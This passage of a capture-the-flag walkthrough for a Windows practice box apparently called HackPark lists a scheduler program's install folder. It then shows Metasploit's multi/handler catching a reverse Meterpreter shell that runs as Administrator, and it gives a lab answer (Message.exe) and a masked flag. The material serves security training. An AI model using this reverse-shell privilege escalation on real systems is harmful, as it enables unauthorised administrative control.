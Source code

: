 ```
-a---         3/25/2018  10:59 AM     491936 SendKeysHelper.exe
-a---         3/25/2018  10:58 AM     437664 ShowXY.exe
-a---         3/25/2018  10:58 AM     439712 ShutdownGUI.exe
-a---         3/25/2018  10:58 AM     235936 SSAdmin.exe
-a---         3/25/2018  10:58 AM     731552 SSCmd.exe
-a---          1/8/2009   7:12 PM     355446 ssleay32.dll
-a---         3/25/2018  10:58 AM     456608 SSMail.exe
-a---          8/4/2019   4:36 AM       6999 unins000.dat
-a---          8/4/2019   4:36 AM     722597 unins000.exe
-a---          8/4/2019   4:36 AM         54 Website.url
-a---         6/26/2009   5:27 PM       6574 whiteclock.ico
-a---         3/25/2018  10:58 AM      76704 WhoAmI.exe
-a---         5/16/2006   4:49 PM     785042 WSCHEDULER.CHM
-a---         5/16/2006   3:58 PM       2026 WScheduler.cnt
-a---         3/25/2018  10:58 AM     331168 WScheduler.exe
-a---         5/16/2006   4:58 PM     703081 WSCHEDULER.HLP
-a---         3/25/2018  10:58 AM     136096 WSCtrl.exe
-a---         3/25/2018  10:58 AM      98720 WService.exe
-a---         3/25/2018  10:58 AM      68512 WSLogon.exe
-a---         3/25/2018  10:59 AM      33184 WSProc.dll
```

Then I set up a new listener on port 4244 using the module multi/handler in [Metasploit](https://www.metasploit.com/) :  
```
msf6 exploit(multi/handler) > set LPORT 4244
LPORT => 4244
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.31.20:4244 
[*] Sending stage (175686 bytes) to 10.10.27.14
[*] Meterpreter session 6 opened (10.14.31.20:4244 -> 10.10.27.14:49316) at 2022-10-15 21:14:04 +0200

meterpreter > getuid
Server username: HACKPARK\Administrator
meterpreter >
```

We are Administrator of the machine !

**Question : What is the name of the binary you're supposed to exploit ?**  
**Answer : Message.exe**  

Let's get the flag on Jeff's desktop :  
```
meterpreter > ls
Listing: C:\Users\jeff\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-08-04 20:54:53 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:57:10 +0200  user.txt

meterpreter > cat user.txt
**************************************
```
